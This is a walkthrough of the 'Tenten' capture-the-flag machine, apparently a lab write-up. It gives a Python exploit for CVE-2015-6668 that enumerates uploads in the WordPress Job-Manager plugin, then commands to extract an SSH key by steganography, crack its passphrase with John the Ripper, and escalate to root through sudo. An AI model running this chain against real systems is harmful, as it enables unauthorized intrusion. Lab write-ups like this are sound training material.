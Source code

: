 # Tenten
## Exploiting WordPress Job-Manager Vulnerability

After scanning the wordpress site for vulnerabilities, you will come a cross a vulnerability for the Job-Manager. It allows us to read through the victims file system and through this way we are able to retrieve a steganography image that gives us a RSA private key which can be bruteforced with John the Ripper to expose the private key password. And thus gaining access to the system.

Job-Manager Exploit:
```python
import requests

print """
CVE-2015-6668
Title: CV filename disclosure on Job-Manager WP Plugin
Author: Evangelos Mourikis
Blog: https://vagmour.eu
Plugin URL: http://www.wp-jobmanager.com
Versions: <=0.7.25
"""
website = "http://10.10.10.10/"
filename = "HackerAccessGranted"

filename2 = filename.replace(" ", "-")

for year in range(2016,2020):
    print(year)
    for i in range(1,13):
        for extension in {'jpg','jpeg','png'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```
> Run that with python and you will gain access to the steganograph file.

After getting the image file, you can decode it online for example here: https://futureboy.us/stegano/decinput.html

*Poof you have a private key*
Get yourself john the ripper bundle and do some magic like this.
```
ssh2john id_rsa > id_rsa.hash
```
> After that you have the hash of that private key which can then be bruteforced to reveal the password

```
john id_rsa.hash --wordlist=rockyou.txt
```
*Bow, you have the password*
```
ssh -i id_rsa takis@10.10.10.10
> Enter the password
```

> Now that you are in, lets find a way out into the root account

```
sudo -l

Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: >> /bin/fuckin  <<

sudo /bin/fuckin bash
```
*Congratulations, you are root!*
